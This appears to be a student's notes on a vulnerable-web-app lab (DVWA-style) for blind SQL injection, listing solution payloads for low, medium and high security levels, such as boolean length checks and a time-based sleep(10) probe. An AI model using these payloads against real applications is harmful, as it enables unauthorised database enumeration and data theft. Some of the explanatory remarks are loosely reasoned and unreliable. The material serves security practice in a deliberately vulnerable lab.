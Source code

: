 Blind SQL injections rely on finding
implicit true/false outputs based on input
to find vulnerabilities.

Low:

Solution 1: 1' and length(database())=4#
Solution 2: 1' and version();#
* 1' order by 3# query results in "User ID is MISSING from the databse".
This is a indirect way of saying there are only 2 columns
* Anything other than 1' and length(database())=4# will result in 
the missing error because there are exactly 4 IDs.

Medium:
Solution 1: 1 and length(database())=4#
Solution 2: 1 and version();#

High:
Solution: 1' and sleep(10)#
* Recieved "User ID is MISSING from the database" after 10 seconds, meaning it worked.
